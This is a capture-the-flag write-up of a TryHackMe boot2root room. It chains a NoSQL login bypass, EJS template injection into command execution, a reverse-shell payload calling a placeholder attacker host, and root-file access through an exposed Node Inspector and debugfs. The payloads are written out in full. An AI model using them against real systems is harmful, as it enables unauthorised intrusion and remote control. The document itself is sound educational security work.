# 7 — Do Not Disturb

**Category:** Boot2Root
**Difficulty:** Medium
**Platform:** TryHackMe

---

## Objective

The challenge presented a login page for the Byte Lotus application.

The goal was to:

1. Bypass the login authentication.
2. Gain access to the staff functionality.
3. Exploit an EJS Server-Side Template Injection vulnerability to obtain a shell.
4. Find a way to access the root filesystem and retrieve `root.txt`.

---

# 1. Login Page — NoSQL Injection

The application initially presented a normal username/password login.



I first tested a basic SQL injection payload:

```text
' or 1=1 --
```

but it didn't work.

Since the application appeared to be using a JavaScript/Node.js backend, I considered the possibility of a **NoSQL injection** vulnerability.

I searched for common MongoDB/NoSQL authentication bypass techniques and found the `$ne` operator.

`$ne` means **Not Equal**.

For example:

```json
{
  "password": {
    "$ne": null
  }
}
```

can cause a database query to match documents whose password isn't `null`.

---

## 2. Bypassing Authentication

The original request looked like:

```text
username=attendant&password=111
```

I modified it in Burp Suite Repeater to:

```text
username=attendant&password[$ne]=password
```



The application accepted the request and I successfully bypassed the login.

This indicated that the backend was interpreting the supplied parameters as NoSQL operators rather than ordinary strings.

### Result

```text
Login bypass
      ↓
Authenticated as a user
      ↓
Access to /staff
```

---

# 3. Staff Preview — EJS Template

After logging in, I found the `/staff/preview` functionality.

The page contained a template field with:

```text
Dear <%= guest %>, your Byte Lotus cabana is confirmed.
```



The application was using **EJS (Embedded JavaScript Templates)** to render this template.

I tested whether expressions were actually evaluated by submitting:

```text
<%= 7 * 7 %>
```

The result was:

```text
49
```



This confirmed that my input wasn't being treated as ordinary text.

The application was evaluating JavaScript expressions inside the supplied template.

---

# 4. EJS SSTI

This led to a **Server-Side Template Injection (SSTI)** vulnerability.

The important vulnerable behavior was essentially:

```javascript
ejs.render(userControlledTemplate, ...)
```

The application allowed the user to control the EJS template itself.

Because EJS templates can execute JavaScript, this can potentially lead to **Remote Code Execution (RCE)**.

I tested command execution using Node's `child_process` module:

```text
<%= global.process.mainModule.require('child_process').execSync('ls') %>
```



The command was executed by the server.

This confirmed that the SSTI could be escalated to command execution.

---

# 5. Getting a Reverse Shell

I then used Node's `child_process` functionality to execute a reverse-shell command.

Payload:

```text
<% const cp = process.mainModule.require('child_process'); cp.exec('bash -c "bash -i >& /dev/tcp/ATTACKER IP/4444 0>&1"'); %>
```

On my attacking machine, I started a listener:

```bash
nc -lvnp 4444
```



After submitting the template, I received a shell.

---

# 6. Finding the User Flag

Once I had shell access, I searched for the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

The flag was located at:

```text
/home/poolside/user.txt
```

I read the file and obtained the **user flag**.

---

# 7. Privilege Escalation Enumeration

Next, I started looking for a way to reach root.

I checked the running processes:

```bash
ps auxww | grep node
```

This revealed an interesting Node.js process:

```text
pipelin+ 599  0.0  2.6 1119640 51884 ? Ssl 00:55 0:00 \
/usr/bin/node --inspect=127.0.0.1:9229 processor.js
```



The important part was:

```text
--inspect=127.0.0.1:9229
```

This meant the Node process had the **Node.js Inspector** enabled.

The Inspector provides a debugging interface that can interact with the JavaScript runtime of the running Node process.

---

# 8. Accessing the Node Inspector

I connected to the local Node Inspector:

```bash
node inspect 127.0.0.1:9229
```

The connection succeeded:

```text
connecting to 127.0.0.1:9229 ... ok
debug> repl
```



I entered the REPL and was able to execute JavaScript in the context of the running Node process.

---

# 9. Using `child_process`

Modern Node.js provides:

```javascript
process.getBuiltinModule('child_process')
```

This allowed me to access Node's built-in `child_process` module from the Inspector.

I first checked the available block devices:

```javascript
process.getBuiltinModule('child_process').execSync("ls -1 /dev/sd* /dev/vd* /dev/nvme* /dev/mapper/* 2>/dev/null || true").toString()
```

The result included:



I then investigated the NVMe filesystem using `debugfs`.

---

# 10. Inspecting `/root`

I used:

```javascript
process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs', ['-R', 'ls /root', '/dev/nvme0n1p1'],{ encoding: 'utf8' })
```

The output showed the contents of `/root`:



The important discovery was:

```text
root.txt
```

---

# 11. Reading the Root Flag

Finally, I used `debugfs` to read the file directly from the filesystem:

```javascript
process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs',['-R', 'cat /root/root.txt', '/dev/nvme0n1p1'],{ encoding: 'utf8' })
```

This returned the **root flag**.



---

# Attack Chain

The complete attack chain was:

```text
Login Page
    ↓
NoSQL Injection
    ↓
Authentication Bypass
    ↓
/staff/preview
    ↓
EJS SSTI
    ↓
Node.js RCE
    ↓
Reverse Shell
    ↓
User Flag
    ↓
Process Enumeration
    ↓
Node Inspector :9229
    ↓
Inspector REPL
    ↓
process.getBuiltinModule('child_process')
    ↓
Command Execution
    ↓
debugfs
    ↓
Read /root/root.txt
    ↓
Root Flag
```

---

# Vulnerabilities / Techniques Used

### 1. NoSQL Injection

The login parameters were interpreted as NoSQL operators, allowing authentication bypass using `$ne`.

### 2. Server-Side Template Injection

The application rendered user-controlled EJS templates directly.

```text
<%= 7 * 7 %>
```

returning `49` confirmed template evaluation.

### 3. EJS → Node.js RCE

The EJS execution context allowed access to Node.js functionality, including `child_process`.

### 4. Node.js Inspector Exposure

A running Node process was started with:

```text
--inspect=127.0.0.1:9229
```

The local Inspector allowed interaction with the running JavaScript runtime.

### 5. Filesystem Inspection with `debugfs`

Instead of relying on normal filesystem permissions, `debugfs` was used to inspect the underlying filesystem device and read `/root/root.txt`.

---

# Key Takeaways

* Don't stop testing at SQL injection — identify the backend technology and consider **NoSQL injection** when appropriate.
* If an application allows users to supply complete templates, investigate **SSTI**.
* EJS is particularly interesting because templates contain JavaScript.
* During privilege-escalation enumeration, always inspect running processes, not just SUID binaries and `sudo`.
* A locally bound debugging interface such as Node Inspector can still be accessible after obtaining a shell on the target.
* Understanding what privileges a process has is critical when investigating debugging interfaces.